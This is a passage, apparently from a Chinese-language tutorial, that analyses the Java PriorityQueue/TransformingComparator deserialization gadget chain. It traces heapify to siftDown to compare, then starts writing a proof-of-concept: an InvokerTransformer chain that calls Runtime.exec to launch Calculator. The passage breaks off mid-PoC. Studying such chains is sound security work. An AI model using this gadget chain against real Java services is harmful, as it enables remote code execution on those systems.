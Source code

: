 ```java
        // Elements are guaranteed to be in "proper order", but the
        // spec has never explained what that might be.
        heapify();
    }
```

执行了一个`heapify()`，跟进去，调用了`siftDown`

```
    private void heapify() {
        for (int i = (size >>> 1) - 1; i >= 0; i--)
            siftDown(i, (E) queue[i]);
    }
```

跟进`siftDown`，调用了`siftDownUsingComparator`，这里面调用了compare，这就和前面说的`TransformingComparator`连接上了

```java
    private void siftDownUsingComparator(int k, E x) {
        int half = size >>> 1;
        while (k < half) {
            int child = (k << 1) + 1;
            Object c = queue[child];
            int right = child + 1;
            if (right < size &&
                comparator.compare((E) c, (E) queue[right]) > 0)
                c = queue[child = right];
            if (comparator.compare(x, (E) c) <= 0)
                break;
            queue[k] = c;
            k = child;
        }
        queue[k] = x;
    }
```

POC编写

首先还是那套

```java
        Transformer[] faketransformer = new Transformer[]{new ChainedTransformer(new Transformer[]{ new ConstantTransformer(1) })};

        Transformer[] transformers = new Transformer[] {
                new ConstantTransformer(Runtime.class),
                new InvokerTransformer("getMethod", new Class[] {
                        String.class, Class[].class }, new Object[] {
                        "getRuntime", new Class[0] }),
                new InvokerTransformer("invoke", new Class[] {
                        Object.class, Object[].class }, new Object[] {
                        null, new Object[0] }),
                new InvokerTransformer("exec",
                        new Class[] { String.class }, new String[]{"/System/Applications/Calculator.app/Contents/MacOS/Calculator"}),
                new ConstantTransformer(1) };

        // 传入fake防止序列化时执行
        Transformer transformerChain = new ChainedTransformer(faketransformer);
```
